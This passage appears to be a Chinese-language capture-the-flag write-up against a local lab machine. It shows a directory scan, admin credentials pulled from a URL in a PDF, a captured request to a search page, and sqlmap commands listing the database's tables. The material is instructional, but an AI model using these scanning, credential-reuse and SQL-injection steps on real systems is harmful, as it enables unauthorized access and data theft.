 ```bash
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      279c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      314c http://192.168.56.108/img => http://192.168.56.108/img/
301      GET        9l       28w      316c http://192.168.56.108/login => http://192.168.56.108/login/
200      GET      117l      627w    49089c http://192.168.56.108/img/image1
200      GET     1121l     5980w   469563c http://192.168.56.108/img/image2
200      GET       76l      291w     3479c http://192.168.56.108/
301      GET        9l       28w      317c http://192.168.56.108/joinus => http://192.168.56.108/joinus/
```

对 `http://192.168.56.108/joinus/` 这个路径进行探测，发现以下信息

```plaintext title="http://192.168.56.108/joinus/application_form.pdf"
https://nebulalabs.org/meetings?user=admin&password=d46df8e6a5627debf930f7b5c8f3b083
```

得到以下凭据

```plaintext
admin:d46df8e6a5627debf930f7b5c8f3b083
```

成功登陆后台

### 搜索功能存在 sql 注入

对浏览器的访问请求进行抓包

```plaintext
GET /login/search_central.php?id=1 HTTP/1.1
Host: 192.168.56.108
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: keep-alive
Referer: http://192.168.56.108/login/search_central.php?id=1
Cookie: PHPSESSID=p8mg4vbtsjc4iahtr48g4koi76
Upgrade-Insecure-Requests: 1
```

将原始请求的数据保存为 `sqlmap.txt` 文件，进行自动化攻击

```bash
┌─[randark@parrot]─[~/tmp]
└──╼ $sqlmap -r sqlmap.txt --dbs
......
[*] information_schema
[*] nebuladb
┌─[randark@parrot]─[~/tmp]
└──╼ $sqlmap -r sqlmap.txt -D nebuladb --tables
......
+----------+
| central  |
| centrals |
| users    |
+----------+
```
